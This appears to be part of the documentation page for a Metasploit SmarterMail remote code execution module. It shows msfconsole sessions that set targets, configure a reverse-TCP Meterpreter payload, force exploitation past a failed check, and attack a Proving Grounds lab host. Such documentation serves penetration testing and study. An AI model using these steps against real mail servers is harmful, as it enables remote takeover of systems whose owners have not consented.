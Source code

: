 ```
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### SmarterMail Build 6985 on Windows 10 Pro

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6985.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 100.0.6985.
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/smartermail_rce) > set ForceExploit true
ForceExploit => true
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6985.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 100.0.6985.
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/smartermail_rce) > 
```

### SmarterMail Build 6919 on Windows 10 Pro (Algernon from Proving Grounds Practice)

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.247.65
RHOSTS => 192.168.247.65
msf6 exploit(windows/http/smartermail_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/http/smartermail_rce) > check

[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6919.
[*] 192.168.247.65:9998 - The target appears to be vulnerable.
msf6 exploit(windows/http/smartermail_rce) > exploit
```